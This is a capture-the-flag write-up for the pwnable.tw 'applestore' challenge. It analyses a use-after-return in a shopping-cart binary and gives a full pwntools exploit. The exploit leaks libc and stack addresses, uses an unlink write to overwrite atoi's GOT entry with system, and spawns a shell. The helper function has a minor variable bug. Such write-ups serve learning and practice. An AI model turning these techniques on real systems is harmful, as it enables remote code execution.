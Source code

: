 # 📌 **applestore - pwnable.tw**  

## 🔹 **Vulnerability Analysis**  
Check Security Protections
``` bash
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8046000)
    RUNPATH:    b'.'
    Stripped:   No
```

## Program Overview
The program is a shopping cart application with the following five main functions:
1. **Add Item**: Adds a new item to the cart.
2. **Delete Item**: Removes an item from the cart.
3. **Display Bought Items**: Lists all items currently in the cart.
4. **List Available Products**: Displays available products for purchase.
5. **Checkout**: Processes the cart for checkout (not officially supported).

The cart items are stored using a doubly linked list, where each newly added item is appended to the tail of the list. The structure of an item is as follows:
```c
typedef struct item {
    char* name;
    int price;
    struct item *next_item;
    struct item *prev_item;
} item;
```
# Vulnerability Analysis

The vulnerability lies in the **checkout function**. Here's how it works:

1. The function checks if the total price of all items in the cart equals **7174**.
2. If the condition is met, it adds a new item (e.g., "iPhone 8") to the cart.
3. However, the new item is **added differently** compared to the `add item` function:
   - In the `add item` function, items are allocated on the **heap**.
   - In the `checkout` function, the new item is created on the **stack**.
   - The stack address corresponds to the input buffer used in the `handler` function and the input buffer of the `cart` function.

This inconsistency creates an opportunity for exploitation.

---

# Exploitation Plan

## Step 1: Prepare the Cart
1. Add items to the cart such that their total price sums up to **7174**.
2. This will trigger the `checkout` function, causing it to add a new item to the cart with a **stack address** in the doubly linked list.

## Step 2: Leak a Libc Address
1. Send the input `"0x804b033"` to the `handler` function's input buffer.
   - The `atoi` function will convert `0x33` (stopping at the first non-numeric character) to the integer `3`.
   - The value `3` corresponds to the **delete item** function (third choice in the menu).
2. When the item is deleted, the program prints the `name` of the deleted item.
   - In this case, the `name` corresponds to the address `0x804b033`, which points to an entry in the **GOT (Global Offset Table)**.
   - This leaks the address of the `__libc_start_main` function, allowing us to calculate the base address of `libc`.

## Step 3: Leak a Stack Address
1. Use the same method as above, but this time leverage the `cart` function.
   - The previous method won't work because it leaks the address pointed to by `environ`, which doesn't have a constant offset to the stack for some reason.
   - We will need to leak to address of `environ` that's why we'll ues the cart function by printing all the cart items and by injecting the environ variable in libc by the vuln buffer by send `y\x00` + the environ addr in libc.
   - This allows us to compute the **saved EBP pointer** in the `delete` function.

## Step 4: Overwrite `atoi` with `system`
1. Compute the offset of the **saved EBP** in the `delete` function from the leaked stack addr.
2. Overwrite the `atoi` GOT entry with the address of `system` since the relro check is `Partial RELRO`.
   - This is the easiest way to gain control, as the program uses `atoi` to convert user input into integers for menu choices.
   - After overwriting `atoi`, any input passed to it will be interpreted as a command to `system`.

---

We can use the following Python program to determine the list of items required to trigger the checkout vulnerability. The program recursively searches for a combination of items whose total price equals the target value (in this case, 7174).
``` python
In [21]: def f(index, items_prices , target_number, used) :
    ...:     if target_number == 0 :
    ...:         return True
    ...:     if index >= len(items_prices) :
    ...:         return False
    ...:     flag = 0
    ...:     if target_number >= items_prices[index] :
    ...:         used.append(items_prices[index])
    ...:         flag = f(index, l , target_number - items_prices[index], used)
    ...:         if not flag :
    ...:             used.pop()
    ...:     if not flag :
    ...:         return f(index+1, items_prices, target_number, used)
    ...:     return flag
```
    Args:
        index (int): Current index in the items_prices list.
        items_prices (list): List of available item prices.
        target_number (int): The target total price. (7174)
        used (list): List to store the selected items.

    Returns:
        bool: True if a valid combination is found, otherwise False.
        
## 🔹 **Exploit Code** 
        
``` python
#! /usr/bin/python3.10
from pwn import *

p = process("./applestore_patched")
# p = remote("chall.pwnable.tw", 10104)
libc_elf = ELF("./libc_32.so.6")
prog_elf = ELF("./applestore_patched")

l = [199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 499, 499, 499, 499, 499, 499, 399]
_map = {199: "1", 499: "3", 399: "4"}

for _ in l:
    p.sendlineafter("> ", "2")
    p.sendlineafter("Device Number> ", _map[_])

# pause()
p.sendlineafter("> ", "5")
p.sendlineafter("Let me check your cart. ok? (y/n) > ", "y")
p.sendafter("> ", p32(0x804b033, "little") + b"\x00" * 12)
p.sendlineafter("Item Number> ", "28")
p.recvuntil("Remove 28:")
libc_leak = p.recvline()[:-1]
libc_leak = int.from_bytes(libc_leak[1:5], "little")
print("libc_leak @ ", hex(libc_leak))
libc_base = libc_leak - libc_elf.symbols["__libc_start_main"]
libc_elf.address = libc_base

atoi_got_addr = prog_elf.got["atoi"]
system_addr = libc_elf.symbols["system"]
environ = libc_elf.symbols["environ"]

p.sendafter("> ", p32(0x804b034, "little") + b"\x00" * 12)
p.sendlineafter("Let me check your cart. ok? (y/n) > ", b"y\x00" + p32(environ))
p.recvuntil("27: ")
stack_leak = int.from_bytes(p.recv(4), "little")
print("stack_leak @ ", hex(stack_leak))

delete_saved_ebp = stack_leak - 0x104
print("saved ebp ptr @ ", hex(delete_saved_ebp))

p.sendafter("> ", p32(0x804b033, "little") + b"\x00" * 4 + p32(delete_saved_ebp - 0x0c) + p32(atoi_got_addr + 0x22))
p.sendlineafter("Item Number> ", "28")
p.recvuntil("Remove 28:")

p.sendlineafter("> ", p32(system_addr) + b";sh\x00")

p.interactive()
```
